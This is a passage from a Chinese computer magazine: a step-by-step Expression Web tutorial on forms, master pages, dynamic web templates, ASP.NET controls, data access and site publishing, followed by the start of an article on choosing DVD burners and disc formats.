Expression Web允许将表单结果保存为两个文件，以确保表单结果存放的安全性，具体操作是：在“表单”属性对话框中单击“选项”按钮，打开“保存表单结果”对话框，选择“文件结果”选项卡，在“可选文件”区域中输入文件名，在“文件格式”下拉列表中选择第二个文件的文件格式，单击“确定”按钮。

(4) 保存表单的其他信息

在保存表单结果时，除了可以保存表单中用户输入的信息外，还可以保存浏览者浏览时间、日期、计算机名称、用户名、浏览器类型等信息。具体操作是：
在表单内单击鼠标右键，选择“表单属性”命令，在打开的“表单属性”对话框中单击“选项”按钮，出现“保存表单结果”对话框，单击“保存的域”选项卡，在“日期和时间”区域中设置所需的日期和时间格式，同时还可以在“要保存的其他信息”区域中选择所需保存的其他信息。

(5) 将表单结果发送到其他程序中

如果用户拥有特殊的表单处理程序，还可以将表单结果直接发送到这些表单处理程序中进行处理。具体操作是：
在“表单属性”对话框中，选中“发送到其他对象”选项，然后在下拉列表中选择所需的表单处理程序即可。

(6) 将表单发送到数据库

在“表单属性”对话框中选中“发送到数据库”选项，然后单击“选项”按钮，在“数据库结果”选项卡中设置好各项数据库参数即可。

#### 十一、动态Web模板和母版页

网页模板就是已经做好的网页框架，用户在可编辑区域输入内容就可以生成一个新网页。
网页模板对于网页设计来说可谓是最得力的助手，它给网页设计提供了一条捷径，利用网页模板不但可以提高网页制作的效率，而且可以使网站保持统一的外观界面。

Expression Web中包括两种模板，一种是用于HTML网页的动态WEB模板，另一种是用于Aspx网页的母版页，两种模板由于用于不同的网页，所以在设计时稍有不同。

##### 1. 母版页

母版页用于ASP.NET网页设计，一个母版页可以为应用程序中的所有网页定义所需的外观和标准行为，然后可以根据母版页创建包含要显示的内容的各个内容网页。

(1) 创建母版页

单击“文件→新建→网页”命令，在“新建”对话框的“网页”选项卡上，从左侧列表中选择“常规”或“ASP.NET”，从中间列表中选择“母版页”，在“编辑语言”下拉列表中，选择一种默认的编辑语言，单击“确定”按钮，就可以在Expression Web中打开新母版页，然后就可以开始母版页的设计。
默认情况下，母版页中会包含一个ContentPlaceHolder控件，这个控件中包含的内容就是不同网页中的，用户可以根据需要在母版页中添加多个ContentPlaceHolder控件，该控件在“工具箱→ASP.NET控件→标准”中，直接拖动到网页中的相应位置即可。

下面我们就来创建一个母版页，了解一下它的实际操作过程。我们要创建的母版页顶部是网站标题栏，左侧是导航栏，下面是页脚内容，右边是内容区，不同的网页内容区的内容不同（图11）。

1) 单击“文件→新建→网页→母版页”，新建一个母版页。
2) 在网页的上部标题栏输入一行文字或插入一个横幅图片，作为通栏标题。



3) 单击表格插入表格，插入一个一行二列的表格，左边的一列作为导航栏，输入网站各个栏目的链接。
然后将网页中的ContentPlaceHolder控件拖放到右边的列中，这就是内容区，不同的网页，此区域中的内容将不相同。
4) 在页面的最下面一行输入文字，用来表示版权信息。
5) 对于页面中的文字、表格等排版，可以用前面介绍的方法进行操作，直到满意为止。
6) 单击“文件→保存”命令，输入文件名，一个母版页就建好了。

(2) 使用母版页创建内容网页

内容网页是基于母版页的网页，它不但包含母版页中的所有内容，而且在内容控件中添加上了所需的内容。
1) 根据母版页创建网页
单击“文件→新建→网页”命令，打开“新建”对话框，在“网页”选项卡上，从左侧列表中选择“常规”或“ASP.NET”，在中间列表中，选择“根据母版页创建”，在“编程语言”下拉列表中，选择一种默认的编程语言，单击“确定”按钮，弹出“选择母版页”对话框，选择“特定母版页”选项，并单击“浏览”按钮选中刚才建立的母版页文件，单击“确定”按钮，一个内容网页就建立好了。

2) 向Aspx网页中附加母版页

如果已经建立好了一个Aspx网页，也可以通过下面的方法将母版页应用到该网站上。
首先打开Aspx网页，单击“格式→母版页→附加母版页”命令，在“选择母版页”对话框中选中“特定母版页”选项，单击“浏览”按钮选择要使用的母版页文件，单击“确定”按钮，出现“匹配内容区域”对话框，单击“确定”按钮，即可将母版页附加到内容网页中，原网页中的内容将自动添加到内容控件区域中。

(3) 向内容网页中添加内容

对于根据母版页建立的内容网页，我们需要在内容控件中添加网页内容，添加的方法如下：
打开要添加内容的Aspx网页，在“设计”视图中，单击位于内容占位符最右侧的箭头按钮以显示“常用content任务”菜单，单击“创建自定义内容”，然后在内容控件上单击，就可以开始向其中插入内容进行网页编辑操作了（图12）。

(4) 向内容网页中添加样式表

打开要添加样式表的内容网页，单击“格式→CSS样式→附加样式表”命令，在打开的“附加样式表”对话框中单击“浏览”按钮，选择CSS文件即可。

(5) 还原为默认母版页内容

对于添加到内容控件中的内容，如果



##### 2. 动态Web模板

动态Web模板用于HTML类型网页，通过使用动态Web模板，可以创建具有统一外观的HTML网页，同时，允许对模板中的可编辑区域进行编辑，以建立新的网页。对于应用了动态Web模板的网页，当模板发生改变时，也同时会反映到这些网页中。

### (1) 创建动态Web模板

单击“文件→新建→网页”命令，在“新建”对话框的“网页”选项卡上，从左边的列中选择“常规”，从中间的列中选择“动态Web模板”，单击“确定”按钮，Expression Web就会新建一个后缀为.dwt的模板文件，同时程序自动插入一个带浅黄褐色的可编辑区域，这个区域就是不同的网页插入内容的区域。用户可以根据需要排版模板，同时也可以在模板中插入多个可编辑区域，最后将模板页保存起来。

### (2) 管理可编辑区域

- 添加可编辑区域: 在“区域名称”中输入名称，单击“添加”按钮。
- 删除可编辑区域: 在“名称”列表中选中要删除的区域，单击“删除”按钮。
- 如果要对一个已建立的可编辑区域改名: 请在模板中右键单击该可编辑区域，在弹出的菜单中选择“管理可编辑区域”命令，打开“可编辑区域”对话框，在“名称”列表中选中区域，然后在“区域名称”中输入新名称，单击“重命名”按钮即可。

### (3) 向网页中应用动态Web模板

对于创建的动态Web模板页，我们可以将它附加到创建的网页上或者直接利用模板创建一个新网页。
1) 利用动态Web模板创建新网页
单击“文件→新建→根据动态Web模板创建”命令，在打开的“应用动态Web模板”对话框中选中已建立好的模板文件（.dwt），单击“打开”按钮，一个新网页就建立好了，然后就可以在可编辑区域输入网页内容。
2) 向已建立的网页应用动态Web模板
打开要应用动态Web模板的网页，单击“格式→动态Web模板→应用动态Web模板”命令，找到并选中要应用的动态Web模板，单击“打开”按钮，出现提示对话框，直接单击“是”按钮，出现“匹配可编辑区域”对话框，我们可以选择以下操作:
- 如果要将网页中的所有内容移到默认的可编辑区域中，请单击“确定”按钮。如果默认的可编辑区域中包含内容，该内容将被替换为网页中的内容。
- 如果要将网页中的所有内容移到特定的可编辑区域中，请单击“正文”，再单击“修改”按钮。在“新区域”列表中，单击要将内容移入其中的可编辑区域。如果单击了“无”，将从网页中删除该内容。
- 如果要保留网页的所有内容和结构，请单击“跳过当前网页”按钮，模板将不会应用到网页。
这里我们选择直接单击“确定”按钮，将模板应用到网页上。

### (4) 更新应用了模板的网页

1) 自动更新网页
默认情况下，当你修改了动态Web模板后保存它时，Expression Web会自动弹出提示窗口，询问你是否同时更新应用了该模板的网页，单击“是”按钮，则同步更新网页，单击“否”按钮则不更新网页。
2) 手动更新网页
更新应用了动态Web模板的单个网页: 在“文件夹列表”任务窗格中选择要更新的网页，然后单击“格式→动态Web模板→更新所选网页”命令，即可将选中的网页更新。
更新应用了动态Web模板的多个网页: 首先打开已建立的动态Web模板，然后单击“格式→动态Web模板”命令，在子菜单中根据需要选择“更新所有网页”或“更新应用了模板的网页”命令。

### (5) 从网页中取消动态Web模板

如果想从一个网页中取消动态Web模板的应用，请首先打开该网页，然后单击“格式→动态Web模板→取消动态Web模板”命令，即可把模板取消。
需要注意的是，从网页中取消动态Web模板时，只删除了该模板所提供的格式，但不会自动从网页中删除内容，如果想删除模板中的那些内容，请手工进行删除操作。

#### 十二、ASP.NET网页开发

##### 1. ASP.NET简介

ASP.NET是目前最受欢迎的Web开发环境之一，逐步取代asp成为网站开发的首选工具。Expression Web支持ASP.NET 2.0，利用Expression Web可以快速开发出ASP.NET网页（Aspx文件）。ASP.NET网页具有许多优点，限于篇幅，这里不过多讲述，有关ASP.NET技术请参考有关书籍。
Expression Web带有许多ASP.NET控件，用户可以直接将控件拖放到网页中，还可以设置各种控件行为和外观的属性。
Expression Web自带一个ASP.NET development server（ASP.NET开发服务器），让用户可以非常方便的测试Aspx网页。当用户浏览Aspx网页时，Expression Web将自动启用ASP.NET开发服务器来浏览网页，免去了用户设置IIS环境的麻烦。

##### 2. 创建ASP.NET网页

单击“文件→新建→网页”命令，打开“新建”对话框，在“常规”或“ASP.NET”类型中单击“ASPX”，然后在右下角的“编程语言”下拉列表中选择一种语言，一般选择C#，单击“确定”按钮，一个Aspx网页就建好了。
下面我们通过一个简单的例子来体验一下ASP.NET网页的强大和方便。
在新建的空白Aspx网页右边的“工具箱”中，单击“ASP.NET控件”左边的加号按钮，展开它，然后再单击“标准控件”左边的加号按钮，展开它，拖动“标准”控件中的“calendar”日历控件到网页中，松开鼠标，一个日历控件就插入到了网页中（图13）。单击“常见calendar任务”中的“自动套用格式”，弹出日历样式设置窗口，根据自己的喜好选择一种样式，单击“确定”按钮。最后单击“文件→保存”命令，把网页保存，然后单击“文件→在浏览器中预览→microsoft internet explorer 6.0”命令或直接按F12键，Expression Web就会自动调用ASP.NET开发服务器，我们就可以浏览自己设计的日历网页了。



##### 3. ASP.NET控件简介

在Expression Web工具箱的ASP.NET控件中共包括六大类几十种控件，这些控件给我们编辑网页带来了极大的方便，用户无须手工编写代码，直接将控件拖放到网页中，程序就会自动生成相应的代码，大大提高了编辑的效率，减少了设计人员的工作量。

下面我们就来简要了解一下这些控件的作用。

## (1) 标准控件

标准控件都是一些我们在网页编辑中常用的元素，如按钮、标签、文本、列表、图像、表格、超链接、文本框等，有些控件使用比较简单，直接拖放到网页中即可，有些使用起来则相对复杂，还需要进行其他设置，如广告条控件 Adrotator、向导控件 Wizard 控件等。

## (2) 数据控件

ASP.NET 网页具有非常强大的数据库操作功能，它对数据库的访问，主要是依靠两种类型的服务器控件：数据源控件和数据绑定控件。数据源控件负责连接和访问数据库，包括 AccessDataSource、SiteMapDataSource、SqlDataSource、XmlDataSource 四种控件。数据绑定控件负责将从数据库中获取的数据显示出来，包括 DataList、DetailsView、FormView、GridView、Repeater 五种控件。关于这些控件的用法，我们将在下面的数据库访问中介绍。

## (3) 验证控件

验证控件主要用来检查用户输入的信息，对用户输入进行验证。Expression Web 中包括 6 种验证控件，即 RequiredFieldValidator（非空验证控件）、RangeValidator（范围验证控件）、RegularExpressionValidator（正则表达式验证控件）、CompareValidator（比较验证控件）、CustomValidator（自定义验证控件）、ValidationSummary（验证总结控件）。

## (4) 导航控件

对于一些大型的站点，利用站点导航可以为用户访问提供极大的方便。Expression Web 提供了三种导航控件，即 SiteMapPath（站点地图控件）、Menu（菜单控件）、TreeView（树形目录控件）。

## (5) 登录控件

利用登录控件可以实现用户身份验证的自动化，为用户设计登录界面提供了方便。Expression Web 中包括 7 个登录控件，分别用来实现用户登录、创建新用户、显示登录状态、显示登录用户名、更新或者重置密码等功能。

## (6) Web 部件控件

Web 部件是用来实现网站个性化服务功能的，网站中通过使用 Web 部件可以实现用户对站点中的内容、布局、外观等自定义设置，使网站显示出个性化。Web 部件就是一个一个的功能控件，用户可以在网站中根据需要灵活使用。Web 部件控件分为两类，一类是结构控件，用来管理和布局 Web 部件控件，包括 WebPartManager、ProxyWebPartManager、WebPartZone、CatalogZone、ConnectionsZone、EditorZone、ImportCatalogPart 7 种控件。另一类是用户界面控件，用来编辑 Web 部件控件用户界面属性，包括 AppearanceEditorPart、BehaviorEditorPart、DeclarativeCatalogPart、LayoutEditorPart、PageCatalogPart、PropertyGridEditorPart 6 种控件。

## (7) 两个简单的实例

下面我们通过两个简单的实例来了解一下控件的用法。

### 1) 建立广告条

利用标准控件中的 AdRotator 控件，可以创建一个动态的广告条，它会从一个广告列表中自动读取广告信息（如图像和 URL），广告条会显示图像，当单击图像时会链接到指定的 URL。该控件会随机选择广告，并在每次刷新时更新所显示的广告。

下面是建立广告条的具体步骤：

- ① 创建数据源。可以使用数据库，也可以使用 XML 文件，用来保存广告条包含的图像和 URL 信息。这里我们使用 XML 文件，以下是这个 XML 文件的源代码：

```xml
<?xml version="1.0" encoding="utf-8" ?>
<Advertisements xmlns="http://schemas.microsoft.com/AspNet/AdRotator-Schedule-File">
  <Ad>
    <ImageUrl>~/images/a2.gif</ImageUrl>
    <NavigateUrl>http://www.cfan.com.cn/</NavigateUrl>
  </Ad>
  <Ad>
    <ImageUrl>~/images/a2.gif</ImageUrl>
    <NavigateUrl>http://www.sina.com.cn/</NavigateUrl>
  </Ad>
</Advertisements>
```

作为广告条图像的两个 gif 文件保存在 images 目录中，请把这段代码复制到记事本中，然后另存为 ad.xml 文件，保存在网站根目录下。

- ② 新建一个 Aspx 网页，从“工具箱”的 ASP.NET 标准控件中将 AdRotator 控件拖放到网页中，将显示“常用 AdRotator 任务”菜单。
- ③ 单击下拉菜单，选择“新建数据源”（图14）。
- ④ 出现“数据源配置向导”对话框，选中“XML 文件”，单击“确定”按钮。
- ⑤ 在“配置数据源”对话框中，单击“数据文件”右边的“浏览”按钮，选择保存的 ad.xml 文件，单击“确定”按钮返回。
- ⑥ 保存网页，然后单击工具栏中的浏览按钮浏览网页，就可以看到广告条，单击其中的图像，就可以链接到指定的网址。

### 2) 建立菜单导航条

- ① 新建一个 Aspx 文件。
- ② 将 Menu 控件从“工具箱”的 ASP.NET 导航控件列表中拖放到网页中。
- ③ 出现“常用 Menu 任务”菜单，单击“编辑菜单项”（图15）。
- ④ 在“菜单项编辑器”中完成菜单的编辑（图16）。

单击左侧窗口上方的“添加根项”按钮，新建一个根项，在右侧的“属性”窗口中输入相应的值。例如，在 Text 框中输入项的名称，在 NavigateUrl 框中输入该项链接的网页或网站，对于本网站中的网页可以单击右侧的浏览按钮进行选择；对于外部网站，需要手工输入，例如输入 http://www.cfan.com.cn。

这样一个根项就建立好了，重复以上操作可以建立多个根项。

如果想对某个根项添加子菜单，可以先单击选中它，然后单击“添加子项”按钮，就可以添加一个子项，同样需要在属性窗口中设置菜单的属性。利用这种方法可以给菜单添加多级子菜单。

- ⑤ 全部菜单设置完毕，单击“确定”按钮返回。
- ⑥ 在“常用 Menu 任务”菜单中单击“自动套用格式”，可以给菜单选择一种样式。
- ⑦ 保存网页，然后浏览，就可以看到导航条的样式。

## 十二、数据访问

越来越多的网页需要与数据库中的数据进行交互，以生成动态、交互式的网页，Expression Web 支持 Access、SQL、XML 文件、站点地图等数据源，并提供了相应的控件来进行数据库操作和管理。

##### 1. 显示数据

一般情况下，我们都是使用表格来显示数据库中的数据，在 Expression Web 中，DataList 控件和 GridView 控件是两种最常用的表格控件，其中 GridView 以网格形式显示表格数据，适合大多数场合的使用。下面我们就以创建 GridView 表格为例来了解数据表格的建立方法。

**(1) 创建数据表格**

- 1) 打开一个网站，创建一个 Aspx 网页，并将它保存。
- 2) 从“工具箱”的 ASP.NET 数据控件中将 GridView 控件拖放到网页中。
- 3) 本例中我们要使用一个 Access 数据库，所以将一个事先建立好的 Access 数据库文件（.mdb）保存到网站根目录下。
- 4) 在“常用 GridView 任务”菜单中，单击“选择数据源”下拉列表，选择“新建数据源”（图17）。
- 5) 出现“数据源配置向导”对话框，单击选择“Access 数据库”，单击“确定”按钮。
- 6) 在“配置数据源”对话框中，单击“浏览”按钮，选择保存的 Access 数据库文件，单击“下一步”按钮。
- 7) 在“配置 Select 语句”对话框中，选中“指定来自表或视图的列”，并在“名称”下拉列表中选中添加的数据库文件，在“列”列表中选择要显示在表格中的字段，单击选中“*”表示选择所有字段，单击“下一步”按钮（图18）。
- 8) 在“测试查询”对话框中单击“测试查询”按钮以检验连接是否成功。
- 9) 单击“完成”按钮，一个数据表格就建立好了。
- 10) 保存网页，然后可以浏览网页效果（图19）。

**(2) 排序表格**

在 Aspx 网页中选中插入的数据视图，单击右上角的三角按钮显示“常用 GridView 任务”菜单，单击“配置数据源”，在“配置数据源”对话框中单击“下一步”按钮，出现“配置 Select 语句”对话框，单击“Order By”按钮，出现排序对话框（图20），在“排序方式”下拉列表中选择一个字段，然后在右边选择“升序”还是“降序”排列。同样你还可以在两个“然后依据”下拉列表中选择另外的排序方式，单击“确定”按钮，然后单击“下一步”和“完成”按钮结束排序设置。保存网页，然后浏览，就可以看到表格按照设置的排序方式显示数据。

上面介绍的排序方式只能按照事先指定字段进行排序，有时我们需要任意选择字段进行排序，那就需要这样操作：
在网页中选中 GridView 控件，单击右上角的三角按钮，显示“常用 GridView 任务”菜单，选中“启用排序”选项（图21），然后保存浏览网页，我们可以看到每一个列标题都变成了一个超链接，单击每一个列标题，就可以使该列按照升序进行排列，再单击一次按照降序进行排列。

**(3) 分页表格**

对于数据较多的数据库，我们可以让表格自动分页，以便于浏览。进行分页操作的步骤如下：选中 GridView 控件，单击右上角的三角按钮以显示“常用 GridView 任务”菜单，选中其中的“启用分页”选项，就可以看到自动分页的效果。

##### 2. 编辑数据

Expression Web 不仅可以显示数据库中的数据，还可以允许用户根据需要对数据进行编辑，然后保存到数据库中。
下面我们就以上面介绍的用 Access 数据库创建 GridView 表格为例来讲解编辑数据的方法。

**(1) 设置数据源**

在网页中选中 GridView 控件，单击右上角的三角按钮以显示“常用 GridView 任务”菜单，单击“配置数据源”，显示“配置数据源”对话框，单击“下一步”按钮，在“配置 Select 语句”中单击“高级”按钮，在“高级 SQL 生成选项”对话框中选中“生成 INSERT、UPDATE 和 DELETE 语句”选项（图22），单击“确定”按钮，再单击“下一步”和“完成”按钮，完成数据源配置。

**(2) 设置 GridView 表格**

完成数据源配置后，返回 Expression Web 编辑窗口，这时我们可以看到“常用 GridView 任务”菜单中新增了“启用编辑”和“启用删除”两个选项，分别选中这两个选项，就可以在表格中添加上“编辑”和“删除”链接（图23）。

保存网页，然后在 IE 中浏览，单击某行中的“编辑”，该行就变成可编辑状态，同时出现“更新”和“取消”链接，编辑需要修改的内容，然后单击“更新”可以保存结果，单击“取消”不更改数据（图24）。

#### 十四、站点发布和管理

Expression Web 具有非常强大的站点管理和发布功能，利用 Expression Web 可以高效地上传文件，更新与管理站点。

##### 1. 发布站点

在发布网站之前，用户首先要申请网站空间，获得网站空间的 FTP 地址以及用户名和密码。下面就可以上传制作好的网站了。

- 打开要发布的网站。
- 单击“网站→远程网站”命令切换到远程网站视图。
- 在“远程网站”视图，单击“远程网站属性”按钮。
- 打开“远程网站属性”对话框，在“远程网站”选项卡中选择一种服务器类型。由于大多数网站都是采用 FTP 方式上传文件，所以我们选择“FTP”，然后在“远程网站位置”中输入 FTP 地址，在 FTP 目录中输入上传的目录，不输入目录时将默认上传到网站的根目录下。
- 单击“确定”按钮，输入网站的用户名和密码。
- 单击“确定”按钮，打开远程网站（图25）。在“远程网站”中选中要发布的目录，双击可以打开它。
- 在“远程网站”窗格中的“发布所有更改过的网页”之下，选中“本地到远程”选项。
- 在“本地网站”窗格中，右键单击不希望发布的每个文件，在弹出的快捷菜单中再单击“不发布”命令。
- 单击“发布网站”按钮。

如果想快速在本地网站和远程网站之间移动文件，也可以单击某个文件并将其拖放到目标网站中。

##### 2. 修改网站设置

- 打开网站，单击“网站→网站设置”命令，打开“网站设置”对话框。
- 在“常规”选项卡中可以输入网站名称，选择是否使用文档签入和签出功能。
- 在“预览”选项卡中设置是否使用 Microsoft ASP.NET Development Server 来浏览 ASP.NET 网页。
- 在“高级”选项卡中可选择默认脚本语言，以及是否显示隐藏文件或文件夹。
- 在“语言”选项卡中选择 Web 服务器所使用的语言以及网站默认的网页编码。
- 在“数据库”选项卡中可以管理“数据库结果向导使用”的数据库连接。

##### 3. 使用网站数据

在 Expression Web 中使用元数据保存应用了动态 Web 模板的网页以及链接到网站中的其他网页的网页信息，因此，当用户在网站中使用了动态 Web 模板或者让 Expression Web 维护网站中网页之间的超链接时，就要使用元数据。元数据保存在特殊文件夹中，默认情况下是隐藏的，以防止更改，其中 _vti_cnf 文件夹包含有关每个文件的信息，_vti_pvt 文件夹保存网站的所有配置信息。

- (1) 向网站中添加元数据：打开网站，单击“网站→网站设置”命令，打开“网站设置”对话框，在“常规”选项卡上，选中“使用隐藏元数据管理网站”选项。
- (2) 从网站中删除元数据：打开“网站设置”对话框，在“常规”选项卡上，取消选中“使用隐藏元数据文件管理网站”选项。

##### 4. 导入/导出个人 Web 包

个人 Web 包包含所选的网页以及重建网页所需的支持文件，用户可以将一个网站中的有关文件和网页导出到一个个人 Web 包，然后再将此个人 Web 包导入到另一个网站中。

- (1) 导出个人 Web 包：打开网站，单击“文件→导出→个人 Web 包”命令，打开“导出 Web 包”对话框。
在左边的网站文件列表中选择要打包的文件，如果想查看选中项目的相关项，请单击“显示相关项”按钮，然后单击“添加”按钮，即可将文件添加到个人 Web 包中。单击“属性”按钮可以编辑个人 Web 包的“标题”、“说明”、“作者”等属性，最后单击“确定”按钮，将导出的个人 Web 包保存起来。
- (2) 导入个人 Web 包：打开要导入个人 Web 包的网站，单击“文件→导入→个人 Web 包”命令，在“打开”对话框中，找到保存的包，再单击“打开”按钮。
出现“导入 Web 包”对话框，在“目的文件夹”中单击“浏览”按钮可以选择要导入的目的文件夹，在下面的项目列表中可以选择导入的项目，最后单击“导入”按钮，即可将该包导入到当前网站中。

##### 5. 使用网站报表

利用网站报表可以收集、分析网站各方面的统计数据，为管理网站提供重要依据。

- (1) 生成网站报表：打开网站，然后在窗口底部的“网站”选项卡上，单击“报表”，打开“报表”视图，并显示“网站摘要”报表（图26）。单击“网站→报表”命令，在子菜单中可以选择各种分类报表进行查看。
- (2) 更改网站报表设置：打开网站，单击“工具→应用程序选项”命令，打开“应用程序选项”对话框，在“报表视图”选项卡上，可以根据需要设置各种参数。
- (3) 保存网站报表：打开网站，单击“网站→报表”命令，在子菜单中选择一种报表类型，然后单击“文件→保存”命令，在出现的“另存为”对话框中，输入文件名，如果想更改网页标题，请单击“更改标题”按钮并输入新的网页标题，然后单击“保存”按钮。

### “刻不容缓”——DVD 刻录高手之路

◆文/胡鹏 王茹 Kingjames

如果你经常喜欢在网上下载游戏、软件和电影，那么你是否常常会感到硬盘空间不够用呢？尽管现在的主流电脑大多都配置了 120GB、160GB 或者更高的大容量的硬盘，但如今的大型游戏动辄就占用 2～3GB 的硬盘空间，时下流行的高清电影也是以 GB 为单位，时间一长，就会使得硬盘空间“捉襟见肘”。如果你是图形图像或 3D 动画工作者，那么大容量存储更是必不可少。

另一方面，众所周知，硬盘的故障发生率是比较高的，加之网络上的病毒和木马的大肆猖獗，也让硬盘上储存的资料面临重大的安全威胁，因此重要的数据资料必须要进行备份。而大容量数据存储、重要数据备份、数据的移动存储、硬盘 Ghost 镜像制作等需求，都非常适合用 DVD 刻录的方案来解决。随着 DVD 刻录机不断降价，目前主流产品大多都降到了 300 元左右，因此 DVD 刻录已经十分普及。另外，随着 DV（数码摄像机）的逐渐普及，影片的剪辑和备份需求也使 DVD 刻录成为最近非常的热门话题。说到这里，可能有很多朋友觉得刻录光盘是一件复杂的事情，一不小心就会出现“飞盘”、“刻坏”的情况，其实不然，只要掌握了一定的基础知识和技巧，光盘刻录是很简单的一件事情。本文全面汇总了有关 DVD 刻录的各类必需知识，全面、详尽地讲解了从 DVD 刻录机的选购到刻录整个过程中的方法和技巧，让读者能够从零开始，轻松成为 DVD 刻录高手。

#### 一、DVD 刻录基础知识

##### 1. DVD 刻录机的优势

许多初学者往往会为购买 CD 刻录机还是 DVD 刻录机而发愁，不要再犹豫了，DVD 刻录机毫无疑问是当前最好的选择。对比 CD 刻录机，DVD 刻录机最大的优势是能存储更多的数据。我们简单算一下，刻录 80GB 的硬盘数据大概需要 120 张 700MB 容量的 CD 盘，可是如果使用了 4.7GB 容量的 DVD 盘刻录则只要 18 张，使用 8.5GB 容量的 DVD 盘刻录则只要 10 张，一切麻烦都迎刃而解！另外，DVD 刻录机可以向下兼容，它既可以刻录 DVD 和 CD，也能读取 DVD 和 CD。有了 DVD 刻录机后，CD 光驱、CD 刻录机、DVD 光驱、康宝（Combo）都没有必要安装了。

##### 2. DVD 的刻录规格

CD 刻录规格只有 CD-R 和 CD-RW，不存在规格兼容性的问题，市面上也只有一种类型的 CD 刻录机。而 DVD 刻录机就不那么简单了，如果你很久没有去过电脑市场，那么你会惊奇地发现目前市场上可供选择的 DVD 刻录机和刻录盘的规格居然有很多种，作为一名新手，难免会搞得一头雾水。国内市场较为常见的 DVD 刻录规格有 DVD-R、DVD-RW、DVD+R、DVD+RW、DVD-R DL、DVD+R DL 以及 DVD-RAM 等。我们可以把 DVD-R/-RW/-R DL 和 DVD+R/+RW/+R DL 看作是一一对应关系，其中：“+”和“-”的区别是分属两大不同阵营；R 代表只能一次写入数据；RW 则代表可重复擦除和写入数据。下面就分别进行介绍。

#### (1) DVD-R/DVD+R

DVD-R/DVD+R 是 DVD 刻录中最常用的规格，叫做“可记录式 DVD”，只能写入一次，盘片容量都是 4.7GB，价格便宜。DVD-R/DVD+R 这两种格式比较类似，它们都是在原有的 CD-R 技术上发展演变而来的，所以兼容性很好，刻录的 DVD 视频光盘除了可以在电脑上播放以外，还可以在各种 DVD 播放机中正常播放。对于普通用户来说，选择 DVD-R 盘片或 DVD+R 盘片几乎没什么差别。

#### (2) DVD-RW/DVD+RW

DVD-RW/DVD+RW 也是比较常用的规格，叫做可重写式 DVD、可复写式 DVD 或可擦写式 DVD，可以进行重复刻录，盘片容量也是 4.7GB，价格比一次性写入盘片高一些。合格的 DVD-RW/DVD+RW 盘片可以重复擦写数据 1000 次以上。

#### (3) DVD-R DL/DVD+R DL

DVD-R DL/DVD+R DL 是一次性写入单面双层 DVD，DL 是双层的意思，由于具有两个存储层，所以两者都能够将一张 4.7GB 容量的 DVD 刻录光盘的容量翻倍，达到 8.5GB，同时仍保有对于现有 DVD 光驱和播放机的兼容性。市场上流行的 D9 光盘其实就是单面双层刻录的 DVD 光盘，其他单面单层的 DVD 盘则称为 D5 光盘。新推出的 DVD 刻录机基本上都支持 DVD+R DL 和 DVD-R DL。不过就技术上而言，双层面刻录要难得多，故而生产这类盘片的厂商较少，价格也较昂贵。实际上还有 DVD-RW DL/+RW DL 光盘，即可重复写入单面双层 DVD，但价格昂贵，比较少见。

#### (4) DVD-RAM

DVD-RAM 是一种可多重书写的 DVD 规范，在国内市场并不太常见。DVD-RAM 的特点是盘片不需要封盘（光盘外有一个盘匣），可以像硬盘一样进行文件操作（可直接使用 FAT32 文件系统），故而也被称为“光硬盘”。单层 DVD-RAM 盘片的容量为 4.7GB，双层容量为 9.4GB。DVD-RAM 采用更为可靠的数据保护设计，重复擦写的次数可达 10 万次甚至百万次，理论上数据保存年限长达 100 年，因此 DVD-RAM 常用于对数据安全要求更高的专业领域。DVD-RAM 的缺点是兼容性比较差，生产该类型盘片的厂商也很少，因此售价也非常高，目前在日本和美国地区较为流行。

#### (5) CD-R/CD-RW

前面说过，DVD 刻录机向下兼容 CD-R/CD-RW，这两种规格大家都很熟悉了，其中 CD-R 光盘是一次性刻录盘，可用于刻录 VCD、数据 CD 和音乐 CD 光盘；CD-RW 是可以重复擦写刻录盘，二者容量一般为 650MB 或 700MB。看了上面这么多的刻录规格，读者可能有点晕了，该选购支持哪些规格的 DVD 刻录机呢？其实很简单，如果你希望自己的 DVD 刻录机是“全能战士”，就购买一个支持全格式的 DVD 刻录机（例如三星 S184M、先锋 DVR-X122 和 DVR-R220），则以上的规格都能支持。

格均可以刻录和读取，但此类刻录机的价格稍高一些。实际上，多年来各家厂商都一直在努力提升DVD刻录机的兼容性，现在较新型号的DVD刻录机大都全面兼容DVD-R/-RW、DVD+R/+RW、DVD-R DL/+R DL、CD-R/CD-RW格式，而绝大部分的刻录操作中使用的都是DVD-R/+R规格，非全格式的DVD刻录机已经足够满足绝大多数需求了，不必要去盲目追求全格式的DVD刻录机。

## 3.DVD的刻录速度

我们去市场上进行选购时，商家会告诉你这是16X、18X或20X的DVD刻录机，这里的16X、18X和20X是指DVD-R/+R的最大刻写速度，这是我们最关心的性能参数。实际上，DVD刻录机的速度参数包括多个方面，这些速度是不同的，主要有：DVD-R/RW刻写和复写（复写是指对可擦写光盘的原有数据进行擦除并写入新数据）速度、DVD+R/RW刻写和复写速度、CD-R/RW刻写和复写速度、CD-ROM和DVD-ROM的读取速度等等。以先锋112CH 18X DVD刻录机为例，DVD-R/+R的最大刻写倍速为18X，DVD+RW复写倍速为8X，DVD-RW复写倍速为6X，CD-R的最大刻写倍速是40X，CD-RW复写倍速为32X……

> 说明：CD刻录的倍速和DVD刻录的倍速是不能直接凭数字对比数据传输速度的。DVD一倍速（1X）的数据传输率是1.35MB/s；CD一倍速（1X）的数据传输率是150KB/s。所以，DVD刻录机使用16X刻录时的数据传输速度将近是CD刻录机使用52X刻录的三倍。但是，由于刻录方式与读写光盘内外圈的速度差异等因素的影响，多数情况下DVD刻录机的实际刻录速度会比标识的速度略慢一点点。

倍速越高，刻录速度就越高，刻录时间也就越短。所以理论上讲DVD刻录机的倍速越高越好，资金允许的话应尽量选购高倍速的DVD刻录机，目前市场上的主流产品为18X和20X的DVD刻录机。

## 4.DVD刻录机的缓存

对于DVD刻录机来说，缓存显得尤为重要。由于DVD刻录数据量大，必须有足够的缓存来存储数据，然后再进行刻录。大缓存可以有效地避免Buffer Under Run（缓存溢出），因此始终在刻录的稳定性方面有着一定的优势，所以缓存容量的大小仍然是选购DVD刻录机的一个重要参考指标。目前大部分的DVD刻录机都采用了2MB缓存，也有少量采用了8MB缓存，在资金允许的前提下，应尽量选择大缓存的产品。

## 5.DVD刻录机的光雕技术

在选购刻录机时，除了上述的刻录规格、刻录速度和缓存容量三个因素外，还要考虑是否带有光雕技术。从本质上来说，“光雕”并非是一种刻盘技术，而是一种利用带光雕技术的刻录机在专用的光雕光盘上进行标签、标题等文字或图像“印刷”的技术，是否支持光雕与刻录机的刻盘效果并无关系。现在已经出现了彩色光雕技术。

